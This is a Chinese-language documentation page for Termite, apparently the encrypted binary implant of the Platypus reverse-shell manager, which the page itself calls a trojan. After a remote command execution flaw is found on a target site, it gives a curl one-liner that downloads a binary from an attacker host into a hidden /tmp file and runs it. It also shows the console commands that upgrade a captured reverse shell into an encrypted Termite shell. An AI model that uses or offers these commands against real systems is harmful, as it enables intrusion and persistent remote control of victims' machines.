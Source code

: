 # Termite

## Termite 是什么？

Termite 是 Platypus 提供的一个二进制客户端，提供了多种有用功能，如：

* 完全交互式 Shell（使用就像 SSH 一样丝滑），并且可以同时启动多个 Shell 而互不影响。
* 4 种不同的[隧道](./tunnel.md)功能
* 更加稳定可靠的文件操作

## 直接获取 Termite Shell

当您在目标网站已经发现了一个远程命令执行漏洞的时候，可以执行通过执行如下命令直接生成 Termite Shell。

!!! Hint
    为了压缩 Termite 客户端的尺寸，建议您安装 upx 并将其所在路径追加至环境变量 `$PATH` 中，以便 Platypus 对其调用对 Termite 进行压缩（Ubuntu 可以直接使用 `sudo apt install upx` 进行安装）。

```bash
curl -fsSL http://1.3.3.7:13339/termite/1.3.3.7:13337 -o /tmp/.H0Z9 && chmod +x /tmp/.H0Z9 && /tmp/.H0Z9
```

## 升级至 Termite（推荐）

当您已经获得了一个反向 Shell 之后，强烈建议您使用 `Upgrade` 命令将其升级为更稳定可靠并且提供加密机制等其他非常有用的功能的 Termite Shell。

!!! Termite
    Termite 是 Platypus 的二进制木马，提供流量加密、交互式 Shell 等功能。

当您已经使用 `Jump` 命令跳转到目标 Shell 之后，您可以使用如下命令来将当前的明文 Shell 提升为更加可靠的 Termite，稍等片刻，您将会看到一个带有 `[Encrypted]` 标记的 Shell 上线。

```
» Jump d2958c94f5425eb709fb5c8690128268
» Upgrade 1.3.3.7:13337
```

您也可以通过 Web 界面来升级到 Termite。

![](/images/webui/upgrade.gif)

与 Termite 交互的逻辑与通常的反向 Shell 一致，即：`Jump` 然后 `Interact`。
